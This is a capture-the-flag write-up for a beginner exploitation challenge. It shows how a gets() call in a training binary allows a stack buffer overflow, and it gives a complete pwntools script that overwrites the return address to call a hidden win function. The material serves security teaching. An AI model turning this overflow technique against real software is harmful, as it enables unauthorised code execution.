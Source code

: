 # Beginner Pwn 2
Writeup by: Ethan Andrews (UofUsec)

## Description
In this challenge there is a function which is not called. Can you fix that?

## Writeup
### Initial Looks
Executing the binary file, it appears to query the user input, and then prints it out.

![image](https://github.com/user-attachments/assets/711a8998-5c08-4dbf-8aee-fe0e23963c91)

### Code Analysis
We can decompile this binary using Ghidra to take a look at the actual C code.

![image](https://github.com/user-attachments/assets/034909a8-8bed-489d-9e3c-d26def687d2f)

We can see that it uses gets() to read into buf. This immediately means we can buffer overflow. 

We also see the win function.

![image](https://github.com/user-attachments/assets/97bb1686-d082-4ff2-8b3d-333766f71b39)

### Exploit Construction
We will construct the exploit using pwntools.

```python
from pwn import *

exe = ELF("./binary")
p = process("./binary")
```

First, we will execute this code to determine what protections the binary contains.

![image](https://github.com/user-attachments/assets/1355d50a-2d29-4806-af03-cde37b5cee36)

We can see that the binary does not have PIE and it is not stripped. We also see that it
is a 64 bit binary. This makes the exploit a relatively straightforward stack smashing challenge.

Because we know that the buffer is the only variable inside the function. We can determine exactly how many bytes to pad the input
with in order to overflow to the return address. The buffer is 10 bytes long, and the EBP is 8 bytes. This means we pad the payload
with 18 bytes in total.

```python
payload = b"\x90" * 18
```

Now, since the binary is not stripped, we can simply load the address of the win function from the symbols table and add it to
the end of the payload.

```python
payload += p64(exe.symbols['win'])
payload += b"\n"
```

Then we can send the payload and receive the response giving us the final exploit:

```python
from pwn import *

exe = ELF("./binary")

# Switch to the remote process to obtain the real flag
# p = remote(....)
p = process("./binary")

payload = b"\x90" * 18
payload += p64(exe.symbols['win'])
payload += b"\n"

p.send(payload)
print(p.recv())

p.interactive()
```

Executing this gives us the flag.

## Important Concepts
- Ghidra
- Buffer Overflow
- Stack Smashing
